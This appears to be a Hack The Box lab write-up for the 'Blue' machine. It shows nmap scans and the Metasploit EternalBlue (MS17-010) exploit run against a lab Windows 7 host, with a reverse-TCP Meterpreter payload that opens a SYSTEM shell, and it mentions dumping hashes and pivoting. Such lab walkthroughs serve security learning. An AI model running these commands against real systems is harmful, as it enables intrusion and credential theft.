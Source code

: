 # 🏰 Machine Name: Blue  
### 🎯 Difficulty: Easy  
### 💻 Platform: Hack The Box  
---

## 🔍 Enumeration

First, let's perform a full TCP port scan:

```bash
nmap -p- -T4 --min-rate=10000 -Pn -vv 10.10.10.40
```
This reveals three open ports: 135, 139, and 445.

Next, we scan these ports for detailed service and OS information:
```bash
nmap -p135,139,445 -A -sV -T4 -Pn -oA agr_scan 10.10.10.40
```

🔎 Key Findings:
OS: Windows 7 Professional SP1 (Workgroup: WORKGROUP)
Open Ports:
135: Microsoft Windows RPC
139: NetBIOS-SSN
445: Microsoft-DS (SMB)
Vulnerability Insight: SMBv1 is enabled, and the OS is Windows 7 — this combination is vulnerable to EternalBlue (MS17-010).
---------------------------------------------------------------------------------------------------------
💥 Exploitation

We’ll use the EternalBlue exploit in Metasploit to gain NT AUTHORITY\SYSTEM access.

Steps:
Launch Metasploit:
msfconsole
Load the exploit:
```bash 
use exploit/windows/smb/ms17_010_eternalblue```
Set the target IP and payload:
set RHOSTS 10.10.10.40
set LHOST <Your_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
Run the exploit:
exploit
```
If successful, you'll receive a Meterpreter session as SYSTEM.
---------------------------------------------------------------------------------------------------------
✅ Post-Exploitation

Confirm shell:
```bash
getuid
```
Dump hashes,pivot, or enumerate as needed.

🎉 Rooted!

🔓 Blue is pwned!
Gained SYSTEM access using EternalBlue on vulnerable SMBv1.
